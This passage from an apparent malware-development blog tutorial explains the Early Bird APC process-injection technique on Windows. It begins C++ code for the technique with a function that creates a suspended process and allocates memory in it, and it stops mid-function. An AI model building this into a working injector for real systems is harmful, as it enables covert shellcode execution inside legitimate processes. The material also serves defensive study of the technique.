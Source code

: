 ```yaml
---
title: "Early Bird code injection: Executing shellcode through early initialization."
date: 2025-07-16 20:12:34 +0200
categories: [Maldev, Process Injection]
tags: [Process Injection, Maldev, Windows, User-Mode]     # TAG names should always be lowercase
image: assets/EarlyBird_Code/0309(1).png
---
```


## **Overview**

Early Bird is a process injection technique that was first discovered in 2018 by the research lab of the cybersecurity company Cyberbit and has been used by multiple threat actors and APT groups to inject arbitray code often into legitimate system processes (e.g., `svchost.exe`, `explorer.exe`).
The execution logic of this technique involves creating a process in a suspended state using the `PROCESS_SUSPENDED` flag, allocating memory for the newly created process, and queue an Asynchronous Procedure Call `(APC)` in the main thread of the suspended process. Then, the thread is resumed, and the shellcode is executed.

## **Execution flow**

- #### **Crafting a custom function to spawn a process in a suspended state:** ####

Defines a custom `CreateTargetProcess` function to create a process in a suspended state by calling `CreateProcessW` with the `CREATE_SUSPENDED` flag. This ensures that the process's main thread does not execute until `ResumeThread` is called.

The function takes four parameters `(hProcess, hThread, lpBuffer, and processName)`, which are declared at the entry point of the main function (e.g., int main() ). The `processName` parameter has a default value if not specified in the function call.

{% highlight CPP %}
BOOL CreateTargetProcess(HANDLE* hProcess, HANDLE* hThread, LPVOID* lpBuffer, const std::wstring& processName=L"C:\\Windows\\System32\\notepad.exe")
{
    std::cout << "[*] Trying to create process..." << std::endl;

    STARTUPINFOW startInfo{ NULL };
    PROCESS_INFORMATION processInfo{ NULL };

    // note the CREATE_SUSPENDED creation flag
    if(CreateProcessW(processName.data(), NULL, NULL, NULL, FALSE, CREATE_SUSPENDED, NULL, NULL, &startInfo, &processInfo))
    {
        *hProcess = processInfo.hProcess; 
        *hThread = processInfo.hThread;

        std::cout << "\\n[+] Process Handle: 0x" << *hProcess << std::endl;
        std::cout << "[+] Thread Handle: 0x" << *hThread << std::endl;

        try
        {
            *lpBuffer = MemoryAllocation(*hProcess);
            if(!*lpBuffer)
            {
                SetConsoleTextAttribute(GetStdHandle(STD_OUTPUT_HANDLE), COLOR_RED);
                std::cerr << "\\t[-] Failed to completion CreateTargetProcess()" << std::endl;
                SetConsoleTextAttribute(GetStdHandle(STD_OUTPUT_HANDLE), COLOR_RESET);
                throw FALSE;
            }
        }
        catch(BOOL x)
        {
            DWORD dwExitCode { NULL };
            if(*lpBuffer)